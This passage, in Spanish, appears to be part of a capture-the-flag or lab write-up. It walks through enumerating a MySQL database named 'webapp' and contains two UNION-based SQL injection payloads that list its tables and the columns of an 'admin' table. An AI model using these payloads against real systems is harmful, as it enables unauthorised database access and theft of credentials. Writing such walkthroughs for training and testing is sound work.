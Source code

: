 Nos encontramos con las siguientes bases de datos:

```php
information_schema
mysql
performance_schema
sys
webapp
```

La que nos parece interesante es `webapp`, por lo que enumeraremos las tablas que contiene esta base de datos.

```php
seven' union select 1,table_name,3,4 from information_schema.tables where table_schema='webapp'-- -
```

![20231121170329.png](20231121170329.png)

La base de datos `webapp` contiene dos tablas que son `admin` y `stock`

Continuamos con la enumeración de la base de datos, en esta enumeraremos las columnas que contiene la tabla.

```php
seven' union select 1,column_name,3,4 from information_schema.columns where table_name='admin' and table_schema='webapp' -- -
```

![20231121170720.png](20231121170720.png)